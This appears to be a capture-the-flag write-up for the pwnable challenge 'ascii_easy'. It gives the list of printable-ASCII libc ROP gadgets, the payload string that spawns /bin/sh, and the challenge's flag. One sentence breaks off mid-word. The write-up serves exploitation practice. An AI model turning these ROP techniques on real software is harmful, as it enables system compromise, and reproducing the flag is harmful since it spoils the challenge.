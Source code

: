 # ASCII Easy

```
We often need to make 'printable-ascii-only' exploit payload.  You wanna try?

hint : you don't necessarily have to jump at the beggining of a function. try to land anyware.
```

Interesting...


```bash
ascii_easy@pwnable:~$ ls
ascii_easy  ascii_easy.c  flag  intended_solution.txt  libc-2.15.so
ascii_easy@pwnable:~$ ./ascii_easy
usage: ascii_easy [ascii input]
ascii_easy@pwnable:~$ ./ascii_easy hello_world
triggering bug...
ascii_easy@pwnable:~$ ./ascii_easy AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
triggering bug...
Segmentation fault (core dumped)
ascii_easy@pwnable:~$
```

## Binary Information

```bash
$ file ascii_easy
ascii_easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3a74cff7b340c23d3f90db3d934c4ca328c4a6b8, not stripped
$ checksec ascii_easy
[*] '/media/or/organic_drive/disk_content/workspace/ctfs/pwnable/ascii_easy/ascii_easy'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



### Research

The binary loads libc library by using mmap with a fixed base
address, so ASLR is not a concern:


```C

#define BASE ((void*)0x5555e000)

void main(int argc, char* argv[]){
    ...
    int fd = open("/home/ascii_easy/libc-2.15.so", O_RDONLY);
    
    ...

    if (mmap(BASE, len_file, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE, fd, 0) != BASE){
        ...
    }
```


and ascii validation is applied to our input:

```C
int is_ascii(int c){
    if(c>=0x20 && c<=0x7f) return 1;
    return 0;
}
```

So we need to find ascii printable gadgets.

```
ROPgadget --binary ./libc-2.15.so --offset 0x5555e000 --badbytes "00-1f|80-ff > gadgets.txt
```

### Useful gadgets

``` 
# move edx to ebx 
0x55606476 : mov ebx, edx ; cmp eax, 0xfffff001 ; jae 0xa8480 ; ret

# Use the inc edx again until reaching a 0 word value on the stack
0x55642d7a : inc edx ; xor eax, eax ; ret

# store 0 in ECX
0x555f616f : mov ecx, dword ptr [edx] ; test ecx, ecx ; jne 0x98168 ; pop esi ; pop edi ; pop ebp ; ret 

# Add 12 bytes of garbage to cancel the pops effect

# store 0 in edx
0x55617940 : mov edx, 0xffffffff ; cmovne eax, edx ; ret
0x55642d7a : inc edx ; xor eax, eax ; ret

# 11 times (for sys_execve)
0x556c6864 : inc eax ; ret 0

# call int 80h to execute sys 
0x55667176 : inc esi ; int 0x80
```

### Debugging foundings
While playing around with my payload I've found out that the edx register can
point to the last part of our argv parameter if we set the env parameters just right.
so I've set an env variable with a specific size which makes edx point to
/bin/sh (last part of our argv string).

```
ascii_easy@pwnable:/tmp/organic$ python payload.py 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAvd\`Uz-dUz-dUz-dUz-dUz-dUz-dUz-dUz-dUz-dUz-dUz-dUz-dUz-dUz-dUz-dUz-dUz-dUz-dUz-dUz-dUoa_UAAAAAAAAAAAA@yaUz-dUdhlUdhlUdhlUdhlUdhlUdhlUdhlUdhlUdhlUdhlUdhlUvqfU/bin/sh
triggering bug...
$ ls
payload.py
$ cd /home/ascii_easy
$ /bin/cat /home/ascii_easy/flag
damn you ascii armor... what a pain in the ass!! :(
$  
```

When debugging with GDB, I've found that the value of edx depends on the remot

flag: `damn you ascii armor... what a pain in the ass!! :(`



